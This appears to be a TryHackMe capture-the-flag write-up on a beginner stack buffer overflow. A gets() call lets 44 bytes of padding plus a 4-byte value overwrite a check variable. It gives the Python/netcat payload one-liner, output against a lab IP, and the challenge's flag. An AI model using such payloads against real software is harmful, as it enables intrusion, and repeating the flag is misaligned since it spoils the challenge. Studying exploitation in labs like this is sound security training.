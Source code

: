 The `gets()` function is inherently insecure because it doesn't perform bounds checks. This means if the input provided to `local_38` exceeds 44 bytes, it will overflow and overwrite subsequent data on the stack. In this case, `local_c` is positioned immediately after `local_38`. We can overwrite `local_c` with a non-zero value, causing `print_flag()` to be called.

Our goal is to make the condition `local_c != 0` true to call the `print_flag()` function.

---


## ✅ Exploit Strategy

To bypass the `local_c != 0` check, we need to overwrite `local_c` with any non-zero value. Our payload will consist of:

1. **Junk Data**: 44 bytes to fill the `local_38` buffer.
2. **A 4-byte Non-Zero Value to overwrite `local_c`**: Since the system is likely little-endian, `\x01\x00\x00\x00` (representing the integer 1) is a suitable choice. The 4-byte value is chosen because local_c is a 4-byte integer variable in the decompiled C code (likely an int on a 32-bit system).

### 🛠️ Building and Executing the Payload
We can construct and send the payload directly using `python3` and `netcat`:

### Testing Locally

```bash
❯ python3 -c "print('A'*44 + '\x01\x00\x00\x00')" | ./start 
Enter your username: Welcome, admin!
Flag file not found!
```

### Testing Remotely

```python
python3 -c "print('A'*44 + '\x01\x00\x00\x00')" | nc 10.10.172.200 9008
```

This command will:
- Send 44 bytes of 'A' characters, filling the `local_38` buffer.
- Then, send `\x01\x00\x00\x00` (or `0x01`), which overwrites `local_c` with the value 1, making the access condition true.

---


### ✅ Expected Output
After successfully sending the payload, you should see output similar to this:

```bash
python3 -c "print('A'*44 + '\x01\x00\x00\x00')" | nc 10.10.172.200 9008
Enter your username: Welcome, admin!
THM{nice_place_t0_st4rt}
```

---
